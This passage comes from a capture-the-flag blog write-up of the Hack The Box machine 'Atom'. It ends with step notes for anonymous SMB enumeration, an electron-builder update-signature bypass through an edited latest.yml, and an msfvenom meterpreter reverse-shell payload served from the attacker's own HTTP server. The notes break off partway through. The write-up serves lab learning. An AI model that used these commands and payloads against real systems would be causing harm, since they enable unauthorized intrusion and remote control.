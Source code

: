 To be honest, dear reader, I didn't - I'm just _THAT_ stupid. _C'est la vie_, I guess. Plug that in to `evil-winrm` to receive your hard-earned Administrator shell - _It's your Administrator shell, use it when YOU need it! Call 877-ROOT-NOW, 877-ROOT-NOW!_

![Piece of a JG Wentworth commercial.](/assets/images/atom/jg_wentworth.gif)

## >> ALL HAIL CRYPTOTOAD

[H'okay, so, here's the ~~Earth~~](https://www.youtube.com/watch?v=GtrPMOKkHvM) ending - we've managed to make a valid signature bypass payload and decrypted not one, but _TWO_ encrypted passwords! Overall I understand but don't necessarily agree with the hate for the box - I thought it was a rather neat take on a new-ish exploit and was pleasantly surprised that it was something other than "get a webshell, pivot to user via shared creds, sudo -l ftw". I hope you've enjoyed this post, I learned quite a bit about electron-builder due to it - as always, ~~make sure to like and subscribe~~ like and share on Twitter, keep on keeping on and happy hacking!

\- sp1icer  
      
## >> TL;DR FOR MY ~~LAZY~~ EFFICIENT FRIENDS

These were my short-form notes in Obsidian while doing the box.

```
# Steps
1. nmap to see 139,445 open
2. SMB enumeration to get PDF
	1. null session to get shares: `smbclient -L \\atom.htb -U ""`
	2. connect to see files: `smbclient \\\\atom.htb\\Software_Updates -U ""`
	3. download the PDF: `get UAT_Testing_Procedures.pdf`
3. Find hint by opening PDF
4. Search "electron-builder exploit", find doyonsec article
	1. https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html
5. Get server to request a PoC file
	2. Make changes to latest.yml
		1. Shorten filename: move the original installer to `heed-v1.exe` (being lazy)
		2. `shasum -a 512 heed-v1.exe| cut -d " " -f1 | xxd -r -p | base64 -w0` to get sha512 & replace in file
		3. change pathname to `http://10.10.17.239/heed-v1.exe`
		4. Remove file directive, should only have `version`, `path`, and `sha512` remaining
	3. Start python dev server: `python3 -m http.server 80`
	4. Upload latest.yml to SMB share
	5. Wait to see the server download our payload
6. Get server to request a malicious payload
	1. gen the payload: `msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=443 -f exe -o "h'ouse.exe" -e x86/shikata_ga_nai -b '\x00'`
		1. Thanks to pascal for the tip on the payload name needing the ' - not just the `.yml`
	2. Make changes to latest.yml
		1. `shasum -a 512 "h'ouse.exe"| cut -d " " -f1 | xxd -r -p | base64 -w0` to get sha512 & replace in file
		2. change pathname to `http://10.10.17.239/h'ouse.exe`
	3. Start python dev server: `python3 -m http.server 80`
```